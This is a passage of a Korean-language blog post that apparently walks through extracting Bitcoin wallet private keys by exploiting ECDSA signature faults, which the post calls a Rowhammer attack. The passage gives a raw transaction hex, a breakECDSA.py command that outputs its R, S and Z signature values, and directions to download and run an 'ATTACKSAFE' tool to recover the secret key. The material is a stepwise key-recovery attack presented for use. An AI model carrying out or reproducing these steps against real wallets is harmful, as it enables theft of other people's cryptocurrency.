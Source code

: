 

<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-115-1024x145.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1181"/></figure>



<pre class="wp-block-code"><code>RawTX = 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000
</code></pre>



<h2>이제 모든 취약한 트랜잭션에서 모든 R, S, Z 값을 가져와야 합니다.</h2>



<p>breakECDSA.py 스크립트를 사용해봅시다.</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-116-1024x306.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1183"/></figure>



<pre class="wp-block-code"><code>R = 0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67
S = 0x0bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff4
Z = 0x9d86bea51385f6a56835d0148e7f23a353605bab339127e800112307e6727d2d</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><strong></strong><strong><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener">공격을 구현하고 비밀 키를 얻기 위해 "ATTACKSAFE SOFTWARE"</a></strong><strong>&nbsp;소프트웨어를 사용합니다.</strong><strong><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener"></a></strong></p>



<figure class="wp-block-image"><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-14.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-705"/></a><figcaption class="wp-element-caption"><strong><code>www.attacksafe.ru/software</code></strong></figcaption></figure>



<h2>액세스 권한:</h2>



<pre class="wp-block-code"><code>chmod +x attacksafe</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-118.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1188"/></figure>
